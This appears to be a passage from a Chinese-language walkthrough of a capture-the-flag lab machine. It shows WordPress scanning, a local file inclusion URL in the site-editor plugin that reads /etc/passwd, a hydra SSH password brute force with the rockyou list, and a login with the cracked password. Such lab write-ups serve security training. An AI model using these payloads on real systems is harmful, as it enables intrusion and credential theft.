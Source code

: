 绑定后刷新一下页面

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

网页正常了，我们使用wpscan扫描下WordPress漏洞，顺便做个目录扫描

API获取地址

```
https://wpscan.com/
```

```
wpscan --url http://shenron:8080 --api-token 你的api-token -e
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

### LFI本地文件包含漏洞

发现编辑器存在本地包含漏洞，我们去查询下这个漏洞如何利用

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到payload，测试一下

```
http://shenron:8080/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到2个可以登录的用户，记录下来

```
vi notes.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

没有其他可利用的信息了，只能用这2个用户名暴破SSH了

```
hydra -L notes.txt -P /usr/share/wordlists/rockyou.txt 192.168.7.175 ssh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

暴破出jenny的弱口令jenny，SSH登录上去

```
`ssh jenny@192.168.7.175``输入密码jenny`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
